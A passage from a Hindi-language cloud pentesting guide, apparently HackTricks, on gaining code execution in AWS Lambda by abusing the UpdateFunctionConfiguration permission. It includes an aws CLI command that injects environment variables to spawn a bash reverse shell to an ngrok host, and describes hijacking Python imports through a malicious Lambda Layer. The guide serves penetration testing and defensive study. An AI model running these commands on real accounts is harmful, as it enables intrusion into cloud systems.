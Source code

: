 ### `lambda:UpdateFunctionConfiguration`

#### env वेरिएबल्स के माध्यम से RCE

इन अनुमतियों के साथ, ऐसे पर्यावरण वेरिएबल्स जोड़ना संभव है जो लैम्ब्डा को मनमाने कोड को निष्पादित करने का कारण बनेंगे। उदाहरण के लिए, पायथन में, पर्यावरण वेरिएबल्स `PYTHONWARNING` और `BROWSER` का दुरुपयोग करके एक पायथन प्रक्रिया को मनमाने आदेश निष्पादित करने के लिए मजबूर किया जा सकता है:
```bash
aws --profile none-priv lambda update-function-configuration --function-name <func-name> --environment "Variables={PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=\"/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18755 0>&1' & #%s\"}"
```
अन्य स्क्रिप्टिंग भाषाओं के लिए अन्य env वेरिएबल्स हैं जिनका आप उपयोग कर सकते हैं। अधिक जानकारी के लिए स्क्रिप्टिंग भाषाओं के उपखंडों की जांच करें:

{{#ref}}
https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse
{{#endref}}

#### Lambda Layers के माध्यम से RCE

[**Lambda Layers**](https://docs.aws.amazon.com/lambda/latest/dg/configuration-layers.html) आपको अपने लैम्ब्डा फ़ंक्शन में **कोड** शामिल करने की अनुमति देता है लेकिन **इसे अलग से स्टोर करता है**, ताकि फ़ंक्शन कोड छोटा रह सके और **कई फ़ंक्शन कोड साझा कर सकें**।

लैम्ब्डा के अंदर आप एक फ़ंक्शन के साथ उन पथों की जांच कर सकते हैं जहाँ से पायथन कोड लोड किया जाता है:
```python
import json
import sys

def lambda_handler(event, context):
print(json.dumps(sys.path, indent=2))
```
ये स्थान हैं:

1. /var/task
2. /opt/python/lib/python3.7/site-packages
3. /opt/python
4. /var/runtime
5. /var/lang/lib/python37.zip
6. /var/lang/lib/python3.7
7. /var/lang/lib/python3.7/lib-dynload
8. /var/lang/lib/python3.7/site-packages
9. /opt/python/lib/python3.7/site-packages
10. /opt/python

उदाहरण के लिए, पुस्तकालय boto3 को `/var/runtime/boto3` (4थी स्थिति) से लोड किया जाता है।

#### शोषण

`lambda:UpdateFunctionConfiguration` अनुमति का दुरुपयोग करके **एक नया लेयर** जोड़ना संभव है। मनमाने कोड को निष्पादित करने के लिए इस लेयर में कुछ **पुस्तकालय होना चाहिए जिसे लैम्ब्डा आयात करने जा रहा है।** यदि आप लैम्ब्डा का कोड पढ़ सकते हैं, तो आप इसे आसानी से ढूंढ सकते हैं, यह भी ध्यान दें कि यह संभव है कि लैम्ब्डा **पहले से ही एक लेयर का उपयोग कर रहा है** और आप **लेयर डाउनलोड** कर सकते हैं और **वहाँ अपना कोड जोड़ सकते हैं।**
